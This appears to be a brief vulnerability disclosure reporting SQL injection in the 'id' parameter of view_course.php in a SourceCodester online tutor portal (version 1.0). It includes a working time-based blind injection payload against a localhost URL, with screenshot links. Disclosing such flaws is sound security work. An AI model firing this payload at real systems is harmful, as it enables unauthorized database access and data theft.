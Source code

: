 ## SQL injection vulnerability exists in online tutor portal system

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

edition: 
1.0

/view_course.php

The Id parameter has SQL injection. Procedure

Payload: http://localhost:80/otps/tutor/courses/view_course.php?id=2' AND (SELECT 6101 FROM (SELECT(SLEEP(5)))lnqT) AND 'uigL'='uigL

![image](https://github.com/user-attachments/assets/11aa6962-5dcf-4af2-9e8f-8a34cfc961d0)

![image](https://github.com/user-attachments/assets/9487ef45-da16-4d35-a614-2879af1e6a98)

